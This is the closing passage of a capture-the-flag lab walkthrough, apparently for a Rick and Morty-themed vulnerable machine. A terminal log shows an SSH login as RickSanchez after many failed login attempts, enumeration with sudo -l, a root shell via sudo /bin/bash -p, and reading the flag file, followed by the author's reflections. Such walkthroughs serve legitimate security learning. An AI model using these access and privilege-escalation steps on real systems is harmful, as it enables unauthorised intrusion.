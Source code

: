 ```bash
┌──(kali㉿kali)-[~]
└─$ ssh RickSanchez@192.168.1.66 -p 22222                                                                                        255 ⨯
RickSanchez@192.168.1.66's password: 
Last failed login: Sat Jul 10 02:08:49 AEST 2021 from 192.168.1.70 on ssh:notty
There were 1328 failed login attempts since the last successful login.
Last login: Thu Sep 21 09:45:24 2017


[RickSanchez@localhost ~]$ id
uid=1000(RickSanchez) gid=1000(RickSanchez) groups=1000(RickSanchez),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[RickSanchez@localhost ~]$ sudo -l
[sudo] password for RickSanchez: 
Matching Defaults entries for RickSanchez on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG
    LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME
    LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User RickSanchez may run the following commands on localhost:
    (ALL) ALL

[RickSanchez@localhost ~]$ sudo /bin/bash -p
[sudo] password for RickSanchez: 
[root@localhost RickSanchez]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[root@localhost ~]# ls
anaconda-ks.cfg  FLAG.txt

[root@localhost ~]# head FLAG.txt
FLAG: {Ionic Defibrillator} - 30 points
```


Plot twist: Not gonna lie, I went through other people's walkthrough for some part without any guilt. I got stucked in the rick's SAFE thing.
I did made a mistake right at the beginning too by not scanning all the ports :V
Keep learning without losing motivation everyone.
Take breaks if you need to.


